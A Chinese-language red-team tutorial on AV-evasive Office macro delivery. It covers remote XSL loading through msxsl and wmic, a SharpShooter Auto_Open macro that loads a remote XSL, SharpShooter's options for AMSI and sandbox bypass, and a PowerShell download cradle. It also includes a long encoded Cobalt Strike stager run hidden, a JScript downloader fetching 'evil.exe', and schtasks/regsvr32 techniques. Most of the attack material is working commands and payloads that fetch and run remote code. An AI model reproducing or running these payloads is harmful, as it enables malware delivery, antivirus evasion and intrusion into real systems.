

XSL远程调用
除了常规方法之外APT组织的攻击通常会采取更高级的攻击手段，通过钓鱼框架来实现更为隐蔽的远程加载，接下来讲讲XSL远程加载的宏免杀方式。
XSL是指扩展样式表语言（EXtensible Stylesheet Language），通过XSL执行的方式有时可以绕过APPLocker执行一些命令，常见的加载方式为MSXSL和wmic
首先我们生成一个恶意XSL文件，可以先通过CS或MSF生成bin格式的payload，之后进行编码，因为我们通过sharpshooter生成XSL文件时不能带有空格因此需要编码。编码完成后通过sharpshooter生成宏和远程XSL文件。

对XSL文件的远程加载方式主要如下：
- 通过msxsl直接调用（msxsl可能需要从微软官网下载）：
msxsl.exe http://xxx.xxx.xxx.x/foo.xsl http://xxx.xxx.xxx.x/foo.xsl
此时利用的截图如下，可以看到成功上线

- 通过wmic调用
wmic process get name /format:"http://xxx.xxx.xxx.x/foo.xsl"
理论上可以成功利用，但是我利用的时候wmic停止运行，问题暂未解决
在确定了该XSL能成功上线以后，我们通过宏也可实现远程加载，其中sharpshooter生成的宏代码如下：
Sub Auto_Open()
Set XML = CreateObject("Microsoft.XMLDOM")
XML.async = False
Set xsl = XML
xsl.Load "http://192.168.233.129/foo.xsl"
XML.transformNode xsl
End Sub
加载了宏之后word进程崩溃，但是CS是可以成功上线的，一但Word进程被结束即掉线，因此使用该种方式还需要借助进程迁移技术保证CS不掉线。
来具体分析一下代码，在代码中我们可以看到对参数的说明
parser = argparse.ArgumentParser(description="", formatter_class=argparse.RawTextHelpFormatter)
parser.add_argument("--stageless", action='store_true', help="Create a stageless payload")
parser.add_argument("--dotnetver", metavar="<ver>", dest="dotnetver", default=None, help="Target .NET Version: 2 or 4")
parser.add_argument("--com", metavar="<com>", dest="comtechnique", default=None, help="COM Staging Technique: outlook, shellbrowserwin, wmi, wscript, xslremote")
parser.add_argument("--awl", metavar="<awl>", dest="awltechnique", default=None, help="Application Whitelist Bypass Technique: wmic, regsvr32")
parser.add_argument("--awlurl", metavar="<awlurl>", dest="awlurl", default=None, help="URL to retrieve XSL/SCT payload")
parser.add_argument("--payload", metavar="<format>", dest="payload", default=None, help="Payload type: hta, js, jse, vbe, vbs, wsf, macro, slk")
parser.add_argument("--sandbox", metavar="<types>", dest="sandbox", default=None, help="Anti-sandbox techniques: " + antisandbox)
parser.add_argument("--amsi", metavar="<amsi>", dest="amsi", default=None, help="Use amsi bypass technique: amsienable")
parser.add_argument("--delivery", metavar="<type>", dest="delivery", default=None, help="Delivery method: web, dns, both")
parser.add_argument("--rawscfile", metavar="<path>", dest="rawscfile", default=None, help="Path to raw shellcode file for stageless payloads")
parser.add_argument("--shellcode", action='store_true', help="Use built in shellcode execution")
parser.add_argument("--scfile", metavar="<path>", dest="shellcode_file", default=None, help="Path to shellcode file as CSharp byte array")
parser.add_argument("--refs", metavar="<refs>", dest="refs", default=None, help="References required to compile custom CSharp,\ne.g. mscorlib.dll,System.Windows.Forms.dll")
parser.add_argument("--namespace", metavar="<ns>", dest="namespace", default=None, help="Namespace for custom CSharp,\ne.g. Foo.bar")
parser.add_argument("--entrypoint", metavar="<ep>", dest="entrypoint", default=None, help="Method to execute,\ne.g. Main")
parser.add_argument("--web", metavar="<web>", dest="web", default=None, help="URI for web delivery")
parser.add_argument("--dns", metavar="<dns>", dest="dns", default=None, help="Domain for DNS delivery")
parser.add_argument("--output", metavar="<output>", dest="output", default=None, help="Name of output file (e.g. maldoc)")
parser.add_argument("--smuggle", action='store_true', help="Smuggle file inside HTML")
parser.add_argument("--template", metavar="<tpl>", dest="template", default=None, help="Name of template file (e.g. mcafee)")
可以看到其中的一些参数，例如
计划任务调用
先介绍一些前置知识。
schtasks
安排命令和程序，使其定期运行或在指定时间运行。向计划中添加任务和从中删除任务、根据需要启动和停止任务以及显示和更改计划的任务。 在进行schtasks 这个计划任务命令的参数详解之前，先简要提出以下几点：
SchTasks.exe 执行的操作类似于“控制面板”中“计划任务”中的操作。可以使用两种工具中的任一种来创建、删除、配置或显示计划任务。
键入不带任何参数的 schtasks 可以查询当前系统中所有计划任务。
mshta
mshta.exe是微软Windows操作系统相关程序，英文全称Microsoft HTML Application，可翻译为微软超文本标记语言应用，用于执行.HTA文件。
执行方式
mshta
mshta "about:<script language=vbs> CreateObject("Wscript.Shell").Run("calc.exe",0,true)(window.close)</script>"

powershell
下载可通过
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('xxx.xx.xx.xx/eval.exe','C:\eval.exe')
上线可通过CS生成的ps1文件或者直接生成ps代码的payload进行，示例代码：
powershell.exe -nop -w hidden -encodedcommand JABzAD0ATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAE0AZQBtAG8AcgB5AFMAdAByAGUAYQBtACgALABbAEMAbwBuAHYAZQByAHQAXQA6ADoARgByAG8AbQBCAGEAcwBlADYANABTAHQAcgBpAG4AZwAoACIASAA0AHMASQBBAEEAQQBBAEEAQQBBAEEAQQBMADEAWABlADIALwBhAFMAQgBEAC8ATwAzAHcASwBxADQAcABrAFcAMABkADQAQgBKAEkAbQBsAFMASgAxAGcAUgBoAHcAZwBSAEQATQBLACsARQBRAFcAcgB4AHIAcwAyAEgAdABwAGYAYQBhAFIAeAAvAGYALwBjAGIARwB0AFAAUwBTADkAbABKAFYATwBrAHMAVwA2ADkAMgBaADIAWgBuAGYAUABMAEcAbwBQAEwATgBrAHcARwB6AFoARgBvAFEAcQBaADAATQBhAGgARQB6ADQAeQBuAGsAbQBjADEAbwBUAFQAYQBuAGMASwBPAC8AVgBqAEIAUAA1AHQAbwB5ADMANAA4AFgATQBwAFgASwAyAEMAbwBRADkAdwA0AFEARQBOAEEAeQBWAHoANQBtAFQATABnADYAdwBwADIAaQBuAGEAeAB6AE0AUABFAEUAaQBUAHIATgBLADgAaABFAFQAVQBoAEkARgBWAEQAOAA1AHkAWgB3AGsAVwA1AEUAZgBZAG8AZgBPAGYAQwB6AFoAbQBzADQAOABLAGgAZQBDAGgASABDAFIATgBrAEcAcgBWAFUAMQA0AG0AUABuAFQAZAArACsAcQBVAFIAQgBRAFgAKwA2AC8AYwAzAFUAcQBVAFIAaABTAGIAOAA0AFoARABUAFYAZAArAGEASwBNAEYAagBTAGcAWgAzAGYAegBKADIAcABMADUAYgBOAHkATwBzAHYAVgB1AFoAaABqAG4AcABMAHQAcQB0AGgAZQBnAEUASABJAEoALwBGAFoAUwA5AGcANAB0AGkAQgBuAHIAVABpAFQAbQB2AHIAMwAzADYAbwArAE8AUwB0AE8AYwA3AGMAZgBJADgAeABEAFQAYgBWADIAbwBhAFIAZQBqAG4AQwB1ADYAcwBwAFgAUABiADYAdwB2ADEAdABSAFQAVwAwAHoATwB4AEMAaABjAEcAUgB1AHgAUAB6AFMAZQBXADYAUQBhAE4AOQBKAGwARwAvAHYAZABWAGYAMQBEAE4AZwBXAFUAQgBrAEYAdgB2AEoAegBFADIATwBaAGUAdwA1AE4AaABXAFUAWABrAEUARgA3AEIARgBVADkAMQAvAFQAWABZAGsAbQAxAFUAegAvAGkAUABLAHUAOAAxAHkAYQBwAFEAcgAzAEkAbAA4AHkAagBjAEMANQBwAEkARgBZAFcARABkAGIATQBwAG0ARwB1AGcAWAAzAEMAYQBZADgANgBVADYAMQBEAE4AdwBjAGMAWABzAHUAawBIAFQATQBCAFYAVgBjAEcAZQBqAFoAMQAzADIAdAAwAGIAeQBjAHUAMwBvAHQAVAA5AGUAZgBhAEgAOABXAEIARABzACsAegBXAE4AQQB6AFgAegBNAHYAUgBCAFcAaABuAEwAcABZADAAcABrAEUANgBJAC8AQwBLAG4ATgB5AE0AawBtAFcARgBPAHoAUgB1AGkASgBrAEMAZAArAE4AVQBzAGcAcQBiAFYAQQBDAFMAeABIAHMANABQAE8AMABIADAAUgBVAG4AeQBxAFQAMgBIAFcAVAA2AFQAUwA5ADkAcwBBAFoAWgBuADgAcQBxAEgAagBnAFMAbgBuADIAegB0AHoAcgBjAGEATgBNAGgAbwBLAFIAYQBlAFkAawA4AFgATgB5AEgAaAAvAE0ANQBoAEgAagBoAEEAWQB4AHcAYwA4AGoAdAAwAFkAZAA1AHQAUABhAHoAcwBjAGUAcwB3AC8AQgBxAGIAMwBrAE4ATwBwAHcAbQBnAEMAUwBPADUAQgAxAFEARgBGAE4AVABRADgAbwBxAGEAWAB3AHEARABHAGkAawArAGQAcwB0AHgANgBUADMAMwBnAHIAZQArAFcAUQBEAFkANABQAFEAUwB1AEkAQwBmADEASABaAGYAWgBPADEATgBTAG0AMwA2AFkAZQBBAEwAagAvAFYAcwBGAFoARABxAFEARQBQAFYAQwBuAGEAYgBBADcAMwBCADUALwBBADUARgBhADUAVABnAE0AcwAwAG8AMwBnAHAAeQAwAHMANABwAEYATQBhAGMAawBxAHkAQQAvAFoATwBrAFIAaQBxAFIASQBsAHUAcAAzAGQAZABzAFIAbAA4AHoARwBvAFQAeQBJAG0AKwBvAHYAUQBKAHAAZQBYAFIAVgArAEsASQBQAEkAQgB2AGMAQwBEAEgAMQByAFIAVwAyAEcAZQBZAHgASwBWAG0AawB3AFEAaQBzADcAaQA3AGsASABGAGQAUQBYAE0AYQBsAGkAegBwAG4AdgBnAHEAUQAxACsAQQBSADIAWQBpAHcAcwBHAFEAZABOAFEATABMAC8ARABoAEEAOQBaADEASABaADkARgBhAGMAZQBrAEMAZABWAEEAeQBEAFkAeABmAHEAUQA1AHAAUwBTAGIAeABoAGwAeABMADEARgAyAG8AZgBFAG0AVwBmAEYAVABGAFcAQgA1AEMATwBsAEkAWQBBAHMATABpAFEAVwBXAFgASQBBAGcAawAxAFMATQAwACsAaQA3AHcALwBWAE8ALwBIAGsAdgBTAEQAbgB0AFcAQQBwAHAANwBVAGsAbABTAGMAVgBIAFkAeQBUAHAAaQBFADAAbwA0ADcAdwBjADAAMwBNAEIAUABvAEEAZwBtAHcARwBZAEgAdwBLAGoAaQBrAGwAKwBXADQAWgBmAGkAdQA5AGkAWgAvAHgAMAB3AEUAegAwAFAAVAA1ADIAMQBpAEwAbABtAHgAdQBZAEcAMwBEAGUAKwBBAGwAWgBxAGkAOQBwAFoAOABNAEoAOABhACsAYgBaAGQARABiAHQAMQA0AHcAcQB4AGoAYgB1AHgAcgB6AHIASQBkAHQAaQBWAFkAWQA2AEIANwBwADQAVgBtAGwAZQBJAFYARgB2ADMARABXAFoAcwBHAHIAMABQAGkARgBSAGcAegAzADEAZwBSAGQAZABGAHAAUAB2AFUAdgBmAFYAYQBuAFcAWgBZAEsAYQBaAHkAOQB2AHgAMgB1AGQAdwBZAEYAMQBDAHAAVgBMADQAcgBGAFoAYQBFAG0AagBIADkARQBwAEcATwB4AHoAYgBiAEYAcQB5AGgAdAB0ADYAMQBLAHMAQgBYAGEAUABKAGIAcwA5AHEAYgBqADgANgBOAHgAeABGAHYANQBNAHYARwB3AGgAbQBKADAATABvAHMAUAB4AEoAYwB2ACsAQQBFAFYAUQBRADUANQB4AEUAZQA5AGsAUwAvAFkAWAB1AFYAZgBIADUANAAyAFkAeQB0AHEAbgBUAG0AcABkAFYAcQBYAHQAOAB1AFcAcAA4AEcAVQBiAHUASwB4AE0AUAA1AHQAYgBUAHIAUgBnAEcAUAB6AFAAQwB4AEgANwByADkAWQBjAGYAcwBXAGUAaQBpADkAWQBUAGUATgBnADIAeQBtAG4AdQA5AE4AUwBtADEAMwBUADYALwBkAHoAdQBzAHYATAAzAGIAVgBRAGEAMgB4ADUAZQBQAG8ANAB0AEMASQBxAE0AVwB1AHYAZgBMAGEANwBQAFgAWAA3ADcAdABEAFQAdgBHAFkATABkAEUASQAyAFAAeAA4AEsAYwB2AE0AcABiAGIAZgBKAEcATQBoADAAWABTAHcANwBYAFYAaQBHAEkAbgBYADYAVAB5AFkAdgBTAHAAWQBRADYARwB4AGsAZABVAE4ASAByAFkAMgBQAFQAQQBwAHYANgBnAHYAaABpAHoAeAAzAHcAOQBmAHoAMABPAEgAdgBoAHkAVwArAEMAbQBRAE0AaAAwAEYANABaAHAARABiAGgAaABEAGUAcABQAHcAZABBAHEAdgA4ADEAZgBqADgAdwB0AFkARAA1AE0ANQBEADYASwAxAHYAMwBEAEEAdwBWAHMARgBuAGEAbAAwAEsAcwAxADgAZwB2AG4AcwBWAEIAcAArAGgAZQBYAEcAeQA0ACsAaABtAE0AMgBkAHYASgBEAFoAaAB1AGkAWgB4AG0AMABEAGUAdQAyAGMAegAzAEcATAB1AGsATgBlAFUAWABJAG8AdQBOAFcAZwBYAGUAOQBRAFcAcwBBADkAbQBKAGIAcwBxADYAQQBKAGoAQwBvAE4AQwA5AE4AUAA1AC8AUABYADYAMwA3ADQANgBFADUAdQBFAGMASQBkADYAdABGAHcAZQBmADUANABtAGkARgBNAEUASwB3AFUAdwBIADkASwBnAGcAWgBSAEkAdwArADkAUABvAFgASQBIAHQAWgA3AFAAUQBaAEoAVwBNADQAZAAyAE8AYgBoAHAANABMAHkAZQBRAHoAMABCAGwAaQBxAE4AOQBoAEcANwB1AHkASwBZADgAUgBvAGMATwBIAHoAVgA5AHUAQwBTADcASQB0AC8AdgAyAHIAdgBWADAAZQB3ADUAdgAvAEwAdQA3AHUAMABjADMAYgB5AEIATgBUAGoASgBKADEATQA4AGoAeAA5AG4AWAA4AHYAOQBvAG8AbQAwAGMAaABBAHYATQBJAFIAKwBnAEUAUgA2AHEAbQBDAEUAQwBJADIAMQBuAFgAYwBGAGkARABrADEANwBlAFYAaABhADAAcwBDAG4ASABBAFkASgBHAEQAVQBPAHUAWQA4ADQARgAzAGIAYwBnAEgALwBTAEMAVwBFAGMAMgBEAGYAcABLAGQAUwA0AEEAUwB4AEwANQB5ACsAdQBkAE8AVQBiAG8AZgA2ADkASwB4ACsAMgAzAHIAMQA3AEIARQBQAFMAbwBoAEkAbgBlAGEANQBGAGYAVgBjAHUAcwBvAFYAdABxAFYAQwBBAFYAbAByAFkAbABnAHQANgA1AHYAWAAyAFYAOABWAHEAcAAzADIAVABsAG8AMgA3ADgAUgBHAFUAeAB4AGYAeAA1AEMASQA5AHMANABkADYASQBSAGQAUQBmADgAagAvAGoASABWAGEAOAA1AEsAcgBmAHgALwByADcAMwB1AC8ATwBIADAAVgAvAG8AWABzAE0AVQBqAFAARABuAC8AYwArAEIAMQAzAC8ARABsAEUASQA4AHcAawBzAEYAcABRADIAegBuAGQAVAB5AGUAdgBSAFMAbwBOAHcASwBOAFoAOABNAGoAVABFAEcARgBPACsAcwBTAGoAKwAxADAAawB6AHoAbwB3AEsAVwBiAFUAOQA1AGwATQAwADEARwBPAEUAQQByAFoASgB4AGoAYQA2AFUAZgBsAFMAbwAvAG4AdgAxAEQAaQBRAEoANAA5AGkAVABsAE0AKwBFAGsAYgAxAEUANgB4AHIAagBSAHYAeAA4AG8AcABWAHIANABxAFoAdwBBAEsAQwBrAHYAbgBNAE8AWQBIAGIAaABUADMAUgBHAFgALwByACsAVwBMAHMAZwBGAFQARQBzAFkAdgBTAG8ALwBhAEYARQBiAFoATQAxAFAATQBvAGQAZABSAEcARwAxAGkAMABZAG0AUQBtAEIAagAyAC8AZwBHADYAdQB3AGcAVQBCAGcAMABBAEEAQQA9AD0AIgApACkAOwBJAEUAWAAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEcAegBpAHAAUwB0AHIAZQBhAG0AKAAkAHMALABbAEkATwAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgAuAEMAbwBtAHAAcgBlAHMAcwBpAG8AbgBNAG8AZABlAF0AOgA6AEQAZQBjAG8AbQBwAHIAZQBzAHMAKQApACkALgBSAGUAYQBkAFQAbwBFAG4AZAAoACkAOwA=
同样也可以配合其他方式上线，但是比较容易被杀…
js
js解释器通常已经内置并且不易被杀软拦截，可用于恶意文件下载
var WinHttpReq = new ActiveXObject("WinHTttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET",Wscript.Arguments(0),/*async=*/false);
WinHttpReq.Send();
Wscript.Echo(WinHttpReq.ResponseText);
下载时调用cscript进行
cscript /nologo download.js http://xxx.xxx.xx.x/evil.exe
实现过程
之前讲了不少其他的一些下载和上线常见的方式，接下来具体讲通过schtask绕过杀软的过程，主要是在宏中利用计划任务schtasks白进程启动reg来绕过杀软执行命令。
根据微软官方的文档，可以用下述方法实现VB开发时间触发器
开发思路主要有以下几点：
1.创建TaskService对象，并设置计划任务不可见，且无视电源情况
2.创建时间触发器判断UAC，避免触发
3.设置触发器的起始时间和结束时间
4.设置指定任务运行的频率以及任务启动后重复模式的重复时间
5.调用执行恶意代码
6.用当前用户直接创建任务
具体代码可以参考[1]文章地址
此处调用是通过调用regsvr32远程下载实现，通过宏的方式来启动reg可以有效绕过大部分杀软，比直接通过PS等执行更为隐蔽，现在的杀软通常都已将PS列入了监控名单。
参考资料
[1] https://www.zhihuifly.com/t/topic/1241
[2] https://cloud.tencent.com/developer/article/1474011
[3] https://www.dbappsecurity.com.cn/show-145-551-1.html
[4] 《安恒信息渗透攻击红队百科全书》
[5] https://www.mdsec.co.uk/2019/02/macros-and-more-with-sharpshooter-v2-0/